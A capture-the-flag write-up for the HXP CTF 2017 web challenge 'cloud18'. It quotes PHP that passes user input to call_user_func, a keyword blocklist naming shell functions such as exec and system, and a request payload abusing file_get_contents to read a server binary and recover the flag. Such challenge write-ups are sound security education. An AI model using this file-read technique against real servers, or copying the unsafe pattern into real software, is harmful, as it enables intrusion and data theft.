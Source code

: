 ```yaml
---
title: HXP CTF 2017 - cloud18
date: '2017-11-19'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hxp2017
tags:
- web
authors:
- chq-matteo
---
```


We can:
- login
- register a new user

Once we are authenticated, we can use a text editor.

We take choose a function, write a regex, write some text and have the text that matches the regex replaced with the output of our functions. (line 35-37)
```php
    $editedText = preg_replace_callback("/" . $_POST["regex"] . "/", function ($matches) {
        return call_user_func($_POST["method"], $matches[0]);
    }, $_POST["text"]);
```

The client provides a couple of examples (line 43-48)
```html
        <select name="method">
            <option value="" disabled selected>select a method</option>
            <option value="strtoupper">to upper case</option>
            <option value="strtolower">to lower case</option>
            <option value="ucfirst">first letter to upper case</option>
        </select>
```

However the method is only checked by this snippet (line 7-9)
```php
if (preg_match("/exec|system|passthru|`|proc_open|popen/", strtolower($_POST["method"].$_POST["text"])) != 0) {
    exit("Do you really think you could pass something to the command line? Functions like this are often disabled! Maybe have a look at the source?");
}
```

In index.php we notice that we have to execute /usr/bin/get_flag to get the flag
```php
		echo "<div class='alert success'>" . shell_exec("/usr/bin/get_flag") . "</div>";
```

However we cannot use shell_exec.
But we can download the whole binary
We craft a request that includes the file in the webpage and then download it.
```
method:file_get_contents
regex:\/usr\/bin\/get_flag
text:/usr/bin/get_flag
```

Now we should get some information reversing the binary.

Luckily the old `strings get_flag | grep hxp` worked
`hxp{Th1s_w2sn't_so_h4rd_now_do_web_of_ages!!!Sorry_f0r_f1rst_sh1tty_upload}`
